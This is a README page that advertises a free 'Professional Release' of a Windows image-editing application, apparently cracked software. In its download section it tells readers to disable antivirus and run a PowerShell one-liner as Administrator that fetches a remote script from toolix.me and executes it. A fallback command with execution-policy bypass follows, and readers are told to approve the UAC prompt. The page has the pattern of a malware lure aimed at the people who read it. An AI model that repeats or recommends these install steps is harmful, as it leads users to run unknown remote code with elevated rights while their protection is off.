

***

# Silhouette Professional Release

<p align="center">
  
</p>

Silhouette Professional Release — Windows 11 and 10 build | simple panels | quick to start.

## About this application

**Silhouette Professional Release** in this repo is a Windows desktop package built for practical use. Expect a normal first launch, access to the complete toolkit with all professional modules enabled, and steady sessions on a standard PC.

**Note:** Windows Defender or third-party AV may flag the installer — **pause real-time protection briefly**, finish setup, then turn protection back on.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Is it free to download?** Yes — it's free to download and use.

**Does it work on Windows?** Yes, it's built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Allow it — that's a standard security prompt.

## About

On Windows 10 and 11, Silhouette Professional Release offers a straightforward path from download to daily use.

## What's included

Modules arrive ready for local use | open the app and continue. This release includes the complete toolkit after install.

## Features

💫 Fast startup
🗂️ Workspace profiles
📈 At-a-glance state
🔒 Local preferences
🔧 Retouch flow
🔧 Style library
🔧 Mass export

## Good for

- 🖥️ Image editing
- 📋 Studio desks
- 🔧 Deliverable prep

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 6 GB minimum | 12 GB recommended
* **Disk:** 4 GB minimum free space

***